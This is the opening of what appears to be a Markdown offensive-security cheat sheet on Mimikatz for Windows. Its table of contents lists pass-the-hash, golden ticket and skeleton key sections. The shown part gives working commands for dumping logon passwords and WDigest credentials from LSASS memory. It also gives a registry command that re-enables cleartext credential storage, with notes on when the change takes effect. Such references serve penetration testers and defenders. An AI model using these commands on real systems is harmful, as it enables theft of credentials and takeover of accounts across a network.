 # Windows - Mimikatz

## Summary

* [Mimikatz - Execute commands](#mimikatz---execute-commands)
* [Mimikatz - Extract passwords](#mimikatz---extract-passwords)
* [Mimikatz - Mini Dump](#mimikatz---mini-dump)
* [Mimikatz - Pass The Hash](#mimikatz---pass-the-hash)
* [Mimikatz - Golden ticket](#mimikatz---golden-ticket)
* [Mimikatz - Skeleton key](#mimikatz---skeleton-key)
* [Mimikatz - RDP session takeover](#mimikatz---rdp-session-takeover)
* [Mimikatz - Credential Manager & DPAPI](#mimikatz---credential-manager--dpapi)
* [Mimikatz - Commands list](#mimikatz---commands-list)
* [Mimikatz - Powershell version](#mimikatz---powershell-version)
* [References](#references)

![Data in memory](http://adsecurity.org/wp-content/uploads/2014/11/Delpy-CredentialDataChart.png)

## Mimikatz - Execute commands

Only one command

```powershell
PS C:\temp\mimikatz> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

Mimikatz console (multiple commands)

```powershell
PS C:\temp\mimikatz> .\mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest
```

## Mimikatz - Extract passwords

> Microsoft disabled lsass clear text storage since Win8.1 / 2012R2+. It was backported (KB2871997) as a reg key on Win7 / 8 / 2008R2 / 2012 but clear text is still enabled.

```powershell
mimikatz_command -f sekurlsa::logonPasswords full
mimikatz_command -f sekurlsa::wdigest

# to re-enable wdigest in Windows Server 2012+
# in HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest 
# create a DWORD 'UseLogonCredential' with the value 1.
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /f /d 1
```

:warning: To take effect, conditions are required :
- Win7 / 2008R2 / 8 / 2012 / 8.1 / 2012R2:
  * Adding requires lock
  * Removing requires signout
- Win10:
  * Adding requires signout
  * Removing requires signout
- Win2016:
  * Adding requires lock
  * Removing requires reboot
